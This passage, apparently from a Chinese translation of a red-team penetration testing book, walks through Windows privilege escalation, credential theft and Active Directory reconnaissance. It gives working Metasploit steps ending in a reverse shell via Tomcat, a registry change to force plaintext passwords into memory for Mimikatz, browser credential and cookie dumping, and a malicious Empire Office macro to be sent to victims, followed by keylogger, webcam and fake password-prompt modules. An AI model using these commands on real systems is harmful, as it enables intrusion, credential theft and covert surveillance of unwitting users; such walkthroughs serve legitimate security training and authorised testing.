一旦服务重新启动，你你应该会收到一个升级为 `system` 权限的 Meterpreter shell 。使用 `PowerUp` powershell 脚本，你将发现许多不同的服务都会有权限提升的可能性。如果你想深入了解 Windows 权限提升的底层问题，请查看 FuzzSecurity 的文章：http://www.fuzzysecurity.com/tutorials/16.html 。

对于未打补丁的 Windows 系统，我们确实有一些权限升级攻击，比如：（ https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1 ）和 ( https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135 ），但是我们如何快速识别目标系统上安装了哪些补丁呢，我们可以在受害者系统上使用系统默认自带的命令来查看安装了哪些系统补丁包。Windows 自带默认命令`systeminfo` 将提取任何给定的 Windows 主机的所有补丁安装历史记录。我们可以拿回这个输出结果，将其复制到我们的 Kali 系统并运行 Windows Exploit Suggester 以查找已知的漏洞然后针对性的进行漏洞利用从而提升权限。


回到你攻击的 Windows 10系统：
- systeminfo
- systeminfo > windows.txt
- 将 windows.txt 复制到你的 Kali 虚拟机的  /opt/Windows-Exploit-Suggester 下
- python ./windows-exploit-suggester.py -i ./windows.txt -d 2018-03-21-mssb.xls



这个工具已经有一段时间没有被维护了，但是你还是可以轻松地从中寻找到你正需要的能权限提升的漏洞。

如果我们处在一个已经打好所有补丁的 Windows 主机环境中，我们将重点关注第三方软件中的不同权限提升漏洞或操作系统的任何 0day 漏洞。例如，我们一直在寻找下面这样的漏洞 http://bit.ly/2HnX5id ，这是 Windows 中的权限升级漏洞，现在还没有修补。通常在这些场景中，可能会有一些基本的 POC 代码，但是我们需要测试、验证并多次复现这个漏洞。我们经常监控某些领域存在公共特权升级的漏洞：
- http://insecure.org/search.html?q=privilege%20escalation
- https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=escalation&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids

通常，这只是时间问题。例如，当发现漏洞时，这可能是你在系统打好补丁之前进一步破坏系统有限的好机会。

### 权限提升实验

测试并尝试不同类型的权限升级漏洞的最佳实验环境是 Rapid7的 [Metasploitable3](https://github.com/rapid7/metasploitable3)。这个充满漏洞的框架会自动生成一个 Windows 虚拟机，其中包含所有常见的和不常见的漏洞。配置需要一点时间，但是一旦配置好了虚拟机，它就是一个非常棒的实验环境。

让我们来看一个简单的例子，然后快速开始：
- 使用 nmap 扫描 Metasploitable3 虚拟机的IP ( 确保全端口扫描免得你错过一些端口 ) 
- 你将看到 ManageEngine 在端口8383上运行
- 启动 Metasploit 并搜索任何 ManageEngine 有关的漏洞
  - msfconsole
  - search manageengine
  - use exploit/windows/http/manageengine_connectionid_write
  - set SSL True
  - set RPORT 8383
  - set RHOST < Your IP>
  - exploit
  - getsystem
- 你会注意到你不能获得 `system` 权限，因为你所利用的服务未作为特权进程运行。这时，你能做到的就是尝试所有不同的权限提升攻击。
- 其中，我们看到的一件事是，Apache Tomcat 是作为特权进程运行的。如果我们可以利用这个服务，我们就可以将我们的 payload 作为更高层次的服务运行。我们看到 Apache Tomcat 在外部网络的8282端口运行，但它需要用户名和密码。因为我们有一个本地低权限的 shell，我们可以尝试在磁盘上搜索这个密码。我们可以在谷歌搜索“Tomcat密码存储在哪里”，搜索结果表明：“tomcat-users.xml”。
- 在受害者机器中，我们可以搜索和读取 tomcat-users.xml 文件:
  - shell
  - cd \ && dir /s tomcat-users.xml
  - type “C:\Program Files\Apache Software Foundation\tomcat\apache-tomcat-8.0.33\conf\tomcat-users.xml
- 现在让我们使用找到的密码攻击 Tomcat。首先，登录到8282端口上的 Tomcat 管理控制台，并查看我们的密码是否有效。然后，我们可以使用 Metasploit 通过 Tomcat 部署恶意的 WAR 文件。
  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set HTTPusername sploit
  - set HTTPpassword sploit
  - set RPORT 8282
  - set RHOST < Metasploitable3_IP>
  - set Payload java/shell_reverse_tcp
  - set LHOST < Your IP>
  - exploit
  - whoami
- 你现在应该是 `system` 权限了。我们利用第三方的工具（tomcat）来提升权限到 `system` 权限。

### 从内存中提取明文凭据

[Mimikatz](https://github.com/gentilkiwi/mimikatz) 自推出以来，就改变了在渗透入侵中获取明文密码的方式。在 Windows 10之前，以本地管理员的身份在主机系统上运行 Mimikatz 的话是允许攻击者从 lsass（本地安全机构子系统服务）中提取明文密码的。这种方法在 Windows 10 出现之前非常有效，而在 windows 10 中，即使你是本地管理员，也无法直接读取它。现在，我看到了一些奇怪的现象，其中单点登录（ SSO ）或者一些特殊的软件会把密码保存在 LSASS 进程中让 Mimikatz 读取，但是我们现在先忽略这个。在这一章中，我们将讨论当这件方法（指 SSO 和特殊的软件）不工作时该做什么（比如在 Windows 10系统中）。

假设你攻击了 Windows 10系统的主机并且提升权限了，默认情况下，你将调整 Mimikatz 的配置，并根据下面的查询查看到密码字段为空。



那么你能做什么呢？最简单的选项是设置注册表项以让系统将密码凭证保存到 LSASS 进程。在 HKLM 中，有一个 UseLogonCredential 设置，如果设置为0，系统将在内存中存储凭据（ http://bit.ly/2vhFBiZ ）：

- reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
- 在 Empire 中，我们可以通过 shell 命令运行：
  - shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

这个注册表修改的问题就是需要用户重新登录到系统。你可以让目标机器屏幕锁屏、重新启动或注销用户，以便你能够捕获然后再次发送凭证文本。最简单的方法是锁定他们的工作机器（这样他们就不会丢失他们的当前的工作...看看我有多好！）。要触发锁屏：

- rundll32.exe user32.dll，LockWorkStation

一旦我们锁定屏幕，并让它们重新登录，我们就可以重新运行 Mimikatz 来获得明文密码。


如果我们无法提升到本地管理帐户怎么办？我们还有哪些其他方法可以获得用户的凭证？在过去，一个常见的渗透攻击是在客户机的用户空间内存中查看凭据是否以明文形式存储。现在一切都是基于浏览器的，我们能在浏览器中做同样的事情吗？

在这里，putterpanda 将和一个很酷的 POC 工具在一起来完成这个任务，称为 [Mimikittenz](https://github.com/putterpanda/mimikittenz)。Mimikittenz 所做的就是利用 Windows 函数 ReadProcessMemory()来提取来自各种目标进程（如浏览器）的密码，并输出纯文本。

Mimikitten 支持 Gmail，Office365，Outlook Web，Jira，Github，Bugzilla，Zendesk，Cpanel，Dropbox，Microsoft OneDrive，AWS Web 服务、Slack、Twitter 和 Facebook。编写 Mimimikittenz 搜索表达式也很容易。

这个工具最好的地方在于它不需要本地管理员权限，因为他只需要访问那些用户本身创建的进程。一旦我们攻击进了主机，我们将把 Mimimikittenz 导入内存，并运行 Invoke-mimikittenz 脚本。



正如上面所看到的，用户通过 Firefox 登录到 Github 中，我们可以从浏览器内存中提取他们的用户名和密码。现在，我希望这本书的读者都能把这个工具用的越来越高级，为不同的应用程序创建更多的搜索查询。

### 从 Windows 凭据管理器和浏览器获取密码

Windows 凭据管理器是 Windows 的默认功能，用于保存系统、网站和服务器的用户名、密码和证书。记不记得当你使用 Microsoft IE/EDGE 对网站进行身份验证后，通常会弹出一个弹出窗口，询问“是否要保存密码？”凭证存储就是存储这些信息的地方，在凭据管理器中，有两种类型的凭据：Web 和 Windows。你还记得哪个用户有权访问这些数据吗？它不是 `system`，而是登录后可以检索此信息的用户。这对我们来说是很好的，就像任何钓鱼网站或代码执行一样，我们通常都可以用别的方法获得那个用户的权限。最好的一点是，我们甚至不需要成为本地管理员来提取这些数据。



如何提取这些信息呢？我们可以使用两种不同的 PowerShell 脚本导入以收集此数据：

- 收集网络凭据：
  - https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1
- 收集 Windows 凭证（只收集通用的而不是目标域特有的）：
  - https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1



从上图中可以看到，我们提取了他们的 Facebook 存储的凭证和任何他们拥有通用的凭证。记住，对于 Web 凭据，Get-WebCredentials 只能从 Internet Explorer/Edge 获取密码。如果我们需要从 Chrome 获取，我们可以使用 Empire payload 的 powershell/collection/ChromeDump。在获取之前，要运行 ChromeDump 的话，首先需要终止 Chrome 进程，然后运行 ChromeDump，最后，我喜欢拉取下载所有的浏览器历史和 cookies。 我们不仅可以了解他们的内部服务器的大量信息，而且，如果他们的会话仍然存在，我们也可以使用他们的 cookies 和身份验证，而不必知道他们的密码!

使用如下 PowerShell 脚本：https://github.com/sekirkity/browsergather ，我们可以提取所有浏览器 cookies，并通过我们的浏览器利用这些 cookies，但是所有这些 cookies 都没有提升权限的功能。



接下来，我们甚至可以开始在受害者系统上可能安装的所有第三方软件中寻找服务器和凭证。一个叫做 [SessionGopher](https://github.com/fireeye/SessionGopher) 的工具可以从 winscp、putty、superputty、filezilla 和 microsoft 远程桌面获取主机名和保存密码。还有一个其他功能是能够从网络上的其他系统远程获取它的本地凭据，启动 sessiongopher 的最简单方法是导入 PowerShell 脚本并执行使用：

- Load PowerShell File:
  - . .\SessionGopher.ps1
- Execute SessionGopher
  - Invoke-SessionGopher -Thorough

我们可以通过以下几种方式从主机系统获取凭证，而无需提升权限、绕过 UAC 或使用键盘记录器。因为我们是在用户的系统会话中，所以我们可以访问主机上的许多资源，以帮助我们继续攻击。

### 从 OSX 获取本地凭证和信息

本书内的大部分横向运动集中在 Windows 上。这是因为几乎所有中大型环境都使用 Active Directory 来管理其系统和主机。我们每年都能看到越来越多的 Mac 电脑，所以希望本书的内容也稍带提及一下 MAC。一旦进入一个 MAC 主机的内网环境，许多攻击就类似于在 Windows 主机环境中的攻击（即扫描默认凭据、Jenkin 等应用程序攻击，嗅探网络，并通过 SSH 或 VNC 横向移动）。

有多个渗透攻击框架的 payload 支持 Mac，我最喜欢的是使用 Empire。Empire 可以生成多个 payload 来诱骗受害者执行我们的代理，其中包括 Ducky scripts、二进制可执行程序、Office 宏、Safari 启动程序、pkg 安装包等等。例如，我们可以创建一个和 Windows 主机适用的 PowerShell Empire 中的 Office 宏：
1. 打开 Empire
2. 首先，确保你能像我们在本书的开头所做的那样设置你的 Empire 监听器
3. 接下来，我们需要构建一个 OSX 宏的 payload
   ```shell
   use Stager osx/macro
   ```
4. 设置要写入本地文件系统的输出文件
   ```shell
   set outfile/tmp/mac.py
   ```
5. 生成 Payload



如果你查看生成的 Office 宏，你将看到它只是由 Python 执行的 Base64代码。幸运的是，Python 是 Mac 上的默认应用程序，当执行这个宏时，我们应该得到 `agent beacon`。

要在 Mac 中创建恶意 Exce l文件，我们可以打开一个新的 Excel 工作表，转到“工具”，查看宏，然后在此工作簿中创建宏，一旦 Microsoft Visual Basic 打开，就删除所有当前代码并将其替换为所有新的宏代码。最后，将其保存为 XLSM 文件。



现在，把你的恶意文件发送给你的目标攻击者，看着 Empire 大展神威。在受害者那边，一旦他们打开 Excel 文件，就会出现这样的情况：



确保创建了一个合理的情形，让他们单击“启用宏”。

一旦你的代理连接回你的 Empire 服务器，接下来的操作和侦察阶段就非常相似了。我们需要：
1. 转储浏览器信息和密码：
```
usemodule collection/osx/browser_dump
```

2. 启用键盘记录器：
```
usemodule collection/osx/keylogger
```

3. 让应用程序提示获取密码：
```
usemodule collection/osx/prompt
```

4. 始终打开电脑摄像头拍照：
```
usemodule collection/osx/webcam
```

## 利用 Windows 域环境的本地应用程序进行攻击

同样，在下面的示例中，我们将使用 PowerShell Empire。当然，你还可以使用 Metasploit、Cobalt Strike 等类似的攻击框架进行相同的攻击。只要你有能力将 PowerShell 脚本导入内存，并且能够绕过主机系统的任何防护，用什么其实并不重要。

现在的你已经完全空置了受害者的主机，从他们的工作主机偷走了所有的秘密，还了解一些受害者浏览的网站，并运行了一些类似 netstat 的命令进行侦察工作...那接下来是什么?

对于红队队员来说，真正的问题是找到有关服务器、工作站、用户、服务以及他们的 Active Directory 环境的可靠信息。在许多情况下，由于受到网络警报和被抓获的风险，我们无法运行任何漏洞扫描操作，甚至无法运行 NMAP 扫描。那么，我们如何利用网络和服务的“特性”来查找我们需要的所有信息？

### Service Principal Names（服务主体名称）

服务主体名称（即 SPN）是 Windows 中的一项功能，它允许客户端能够唯一地标识服务的实例。Kerberos 身份验证使用 SPN 将服务实例与服务登录帐户关联[https://msdn.microsoft.com/enus/library/ms677949(v=vs.85).aspx] 。例如，你可以在那些运行 MSSQL 服务器、HTTP 服务器、打印服务器和其他服务器的服务帐户找到一个用于服务的 SPN。对于攻击者来说，查询 SPN 是爆破阶段的重要部分。这是因为任何域用户帐户都可以查询与 Active Directory 关联的所有服务帐户和服务器的 AD。我们可以在不扫描单个主机的情况下识别所有数据库服务器和 Web 服务器！

作为一个攻击者，我们可以利用这些“特性”来查询 Active Directory。在任何已经加入域的计算机上，攻击者都可以运行 setspn.exe 文件来查询 Active Directory（AD）。此文件是所有 Windows 机器默认自带的 Windows 二进制文件。

- setspn -T [DOMAIN] -F -Q */*
- 功能
  - -T = 对指定域执行查询
  - -F = 在 AD 环境而不是域级别环境执行查询
  - -Q = 在每个目标域或林环境上执行
  - */* = 显示所有

我们可以从 setspn 中看到什么类型的信息？下面，运行 setspn 命令，我们会看到一些在域控制器上运行的服务的信息，还有关于工作站的信息，我们还找到了一个名为 csk-github 的服务器。在这个服务器中，我们可以看到在主机上运行着一个 HTTP 服务。如果这些相同的协议运行在不同的端口上的话，这些信息也会被列出。



setspn 不仅提供有关服务用户和所有主机名的有用信息，它甚至也会告诉我们哪些服务正在系统上什么端口上运行。如果我们可以直接从 AD 中获取服务甚至端口的大部分信息，那为什么我们还需要扫描网络？我们可能马上攻击的东西是什么？Jenkins？ Tomcat？ ColdFusion？

### 查询 Active Directory

我不知道曾经有多少次，好不容易找到了一个域用户帐户和密码，却被告知它只是一个没有其他特权的域用户帐户，但不用担心。我们通常可以在打印机，共享信息工作站，带有服务密码的文本文件，配置文件、iPad、包含密码的 Web 应用程序的页面源代码中中找到这些类型的帐户，但是，对于这些没有其他组成员资格的基本域用户帐户，你可以用来做什么？

**获取有关 AD 中用户的详细信息**

我们可以使用 @harmj0y 创建的名为	[PowerView](http://bit.ly/2JKTg5d) 的工具来帮我们完成所有的复杂的查询操作。PowerView 是一个 PowerShell 脚本，用于在 Windows 域上获得网络拓扑信息。它包含一组纯 PowerShell 命令替换项，用于各种 Windows 系统中的 `net` 命令，这些命令使用 PowerShell AD hooks 和基础的 Win32 API 函数来执行有用的 Windows 域功能[http://bit.ly/2r9lYnH] 。作为攻击者，我们可以使用 AD 中低权限用户`普通的域用户`来利用 PowerView 和 PowerShell 查询 AD（活动目录），甚至不需要本地管理员权限。

让我们通过一个例子来说明我们可以从这个低权限用户那里获得多少数据。在一开始，我们已经在运行 Empire（你可以在 Metasploit、Cobalt Strike 或类似软件都可以），并在受害者系统上执行了 payload。如果你以前从未建立过 Empire，请查看有关建立 Empire 和 Empire payload 的设置章节。一旦我们的代理（agent）与我们的命令和控制服务器通信，我们就可以键入 `info` 以查找有关受害者的信息。在本例中，我们已经攻陷了运行完整补丁的 Windows 10系统的主机，该系统的用户名为 neil.pawstrong，位于 CyberspaceKitten 的域中。



接下来，我们希望在不引起太多怀疑和注意的情况下从域中查询信息，我们可以使用 Empire 内部的 PowerView 工具来获取信息。PowerView 查询域控制器（DC）以获取有关用户、用户组、计算机等的信息。我们此次使用 PowerView 将只用来查询域控制器，并且使它看起来像正常通信。

Empire 下有哪些模块可用于信息收集呢？



我们可以从 PowerView 脚本的 get_user 的函数名开始。获取指定域中指定查询用户的信息。通过使用默认设置，我们可以获取有关 AD 中用户的所有信息以及相关信息的转储。

```
Module: situational_awareness/network/powerview/get_user
```



在上面的转储文件中，我们可以看到关于其中一个用户 `purri gagarin` 的信息。我们得到了什么类型的信息？我们可以看到他们的 sAMAccountName 或用户名，当他们的密码被更改时，看到他们的对象类别是什么，他们是什么权限组的成员，最后登录的时间是什么，等等。使用这个基本的用户转储，我们可以从目录服务中获得大量的信息。我们还能得到什么样的信息呢？

```
Module: situational_awareness/network/powerview/get_group_member
```

get-group-member 返回给特定组的成员，并选择“recurse”以查找所有有效的组内成员。我们可以使用 AD 来查找特定组的特定用户。例如，使用以下 Empire 的设置，我们可以搜索属于域管理组的所有域管理员和组：

-  info
-  set Identity “Domain Admins”
-  set Recurse True
-  set FullData True
-  execute



现在，我们有一个用户、组、服务器和服务的收集列表。这将帮助我们了解哪些用户拥有哪些特权。但是，我们仍然需要有关工作站和系统的详细信息。这可能包括版本、创建日期、用途、主机名等。我们可以用一个叫做 get_computer 的模块来获得这些信息。

```
Module: situational_awareness/network/powerview/get_computer
```

描述：get_computer 模块可以查询域中当前的计算机对象。



get_computer 查询域控制器可以获得什么信息呢？好吧，我们看到我们可以获得关于机器的信息，比如当它被创建时的 DNS 主机名，自定义名称等等。作为攻击者，最有用的侦察细节之一是获取操作系统类型和操作系统版本。在这种情况下，我们可以看到这个系统是 Windows 10 Build 16299版本。我们可以通过获取这些信息，了解操作系统的最新版本以及它们是否在 Microsoft 的发布信息页上存在修补的补丁：https://technet.microsoft.com/en-us/windows/release-info.aspx 。

### Bloodhound/Sharphound

我们如何利用在侦察阶段收集的所有信息来创建一条攻击线路呢？我们如何能够轻松、快速地得知谁有权限去调用那些功能？回想一下，我们总是试图直接攻击，让一切都达到我们想要的目的，但这总是会增加被抓住的可能性。

Andrew Robbins，Rohan Vazarkar 和 Will Schroeder 已经创造了一种最好的工具，那就是 Bloodhound/Sharphound。在他们的 Github 页面上显示。“Bloodhound/Sharphound 使用图表理论来揭示 Active Directory 环境中隐藏的、出乎意料的关系。攻击者红队可以使用 Bloodhound 轻松识别高度复杂的攻击路径，否则的话将无法快速识别。防御者蓝队可以使用 Sharphound 来识别和消除对应的的攻击路径。”[https://github.com/BloodHoundAD/BloodHound] 。

Bloodhound/Sharphound 的工作原理是在受害者系统上运行一个 Ingestor，然后为用户、组和主机查询 AD（类似于我们以前手工做的）。然后，Ingestor 将尝试连接到每个系统以枚举登录的用户、会话和权限。当然，这个动静会很大。对于采用默认设置（可以修改）的中型企业网站，连接到每个主机系统和使用 Sharphound 查询信息的时间可能不到10分钟。注意，因为这会接触到网络上每个加入域的系统，所以它可能会让你被发现。Bloodhound/Sharphound 中有一个秘密选项，它只查询 Active Directory，不连接到每个主机系统，但是输出结果非常有限。

目前有两种不同的版本（我相信旧版本很快就会被移除）：
- 在 Empire，你可以使用模块：
  - usemodule situational_awareness/network/bloodhound
  - 这仍然是查询非常慢的旧的 PowerShell 版本
- 最好的选择是 Sharphound，Sharphound 是最原始的 C# 版本 Bloodhound Ingester。这是个更快更稳定的版本。可以用作独立二进制文件，也可以作为 PowerShell 脚本导入。Sharphound PowerShell 脚本将使用反射和 assembly.load 加载已编译 BloodHound C# 版本的 ingestor 并将其捕获。
  - https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors

要运行 Bloodhound/Sharphound Ingestor，你可能需要指定多个集合方法：

- Group - Collect group membership information
  - 收集组成员身份信息
- LocalGroup - Collect local admin information for computers
  - 收集计算机的本地管理信息
- Session - Collect session information for computers
  - 收集计算机的会话信息
- SessionLoop - Continuously collect session information until killed
  - 持续收集会话信息直到结束
- Trusts - Enumerate domain trust data
  - 列举域内信任数据
- ACL - Collect ACL (Access Control List) data
  - 收集ACL（访问控制列表）数据
- ComputerOnly - Collects Local Admin and Session data
  - 收集本地管理和会话数据
- GPOLocalGroup - Collects Local Admin information using GPO (Group Policy Objects)
  - 使用GPO（组策略对象）收集本地管理信息
- LoggedOn - Collects session information using privileged methods (needs admin!)
  - 使用特权方法收集会话信息（需要管理员权限！）
- ObjectProps - Collects node property information for users and computers
  - 为用户和计算机收集节点属性信息
- Default - Collects Group Membership， Local Admin， Sessions， and Domain Trusts
  - 收集组成员、本地管理员、会话和域信任关系

在目标系统上运行 Blood/Sharphound:

- 运行 PowerShell，然后导入 Bloodhound.ps1 或者 SharpHound.ps1：
  - Invoke-Bloodhound -CollectionMethod Default
  - Invoke-Bloodhound -CollectionMethod ACL，ObjectProps，Default-CompressData -RemoveCSV -NoSaveCache
- 运行可执行文件:
  - SharpHound.exe -c Default，ACL，Session，LoggedOn，Trusts，Group

一旦完成了 Bloundhound/Sharphound，这四个文件将被保存到受害者机器上。下载并处理这些文件，并将它们复制到你的 kali 上。接下来，我们需要启动 Neo4j 服务器并导入这些数据来构建相关关系图。

打开 Bloodhound
1. apt-get install bloodhound
2. neo4j console
3. 打开浏览器访问  http://localhost:7474
    1. 连接到 bolt://localhost:7687
    2. 用户名: neo4j
    3. 密码: neo4j
    4. 修改密码
4. 在一个终端中运行 Bloodhound：
    1. bloodhound
    2. 数据库 URL: bolt://127.0.0.1:7687
    3. 用户名: neo4j
    4. 密码：新的密码
5. 加载数据
    1. 在右侧，有一个 `Upload Data` 的按钮
    2. 上传 `acls.csv`，`group_membership.csv`， `local_admin.csv` 和 `sessions.csv`

如果你没有一个域来测试这个，我已经在这里上传了四个 Bloodhound 文件：https://github.com/cyberspacekittens/bloodhound ，这样你就可以重复这些练习了。一旦进入 Bloodhound 并导入了所有数据，我们就可以去查询“查找到域管理员的最短路径”。我们还可以选择特定的用户，看看是否可以将路径映射到特定的用户或组。在我们的示例中，我们攻陷的第一个用户机器是 NEIL.PAWSTRONG@CYBERSPACEKITTENS.LOCAL。在搜索栏中，我们输入该用户的用户名，单击 `Pathfinding` 按钮，然后键入“Domain Admin”（或任何其他用户），查看是否可以在这些对象之间显示对应的路由路径。



你可以从 Neil 的机器上看到，我们可以一路顺利的到 CSK 实验组。在“实验”组中，有一个名为 Purri 的用户，他是 HelpDesk 组的成员。



如果我们能攻陷 HelpDesk 组，我们可以转到 Chris 的主机中，而且 Elon Muskkat 目前已登录此机器。如果我们能转移到他的进程或窃取他的明文密码，我们就可以把权限提升到域管理员！

对于大型网络的扫描结果，我们注意到了 Bloodhound 查询的搜索功能有一些局限性。使用 Neo4j 的一个巨大好处是，它允许通过自己本身的叫 Cypher 的语言进行原始查询。有关自定义查询的 Cypher 的深入研究，请访问：https://blog.cptjesus.com/posts/introtocypher 。

我们可以添加哪种自定义查询？来看吧，@porterhau5在扩展 Bloodhound 跟踪和可视化攻击方面取得了很大进展。查看他们的文章：https://porterhau5.com/blog/extending-bloodhound-track-and-visualize-your-compromise/ 。

从高层次的角度来看，@porterhau5增加了标记被攻陷主机的想法，以帮助更好地在内网漫游。例如，在这个伪造的场景中，我们通过仿冒用户 niel.pawstrong 来危害其他初始用户。使用 Bloodhound 上的 Cypher 语言和原始查询功能，我们可以运行这些查询：

- 向被攻陷系统添加自有标签：
  - MATCH (n) WHERE n.name=“NEIL.PAWSTRONG@CYBERSPACEKITTENS.LOCAL” SET n.owned=“phish”， n.wave=1
- 运行查询以显示所有被仿冒的系统
  - MATCH (n) WHERE n.owned=“phish” RETURN n

现在，我们可以向 Bloodhound 添加一些自定义查询。在Bloodhound 的“查询”选项卡上，滚动到底部，单击“自定义查询”旁边的“编辑”按钮。用以下内容替换所有文本：
- https://github.com/porterhau5/BloodHound-Owned/blob/master/customqueries.json

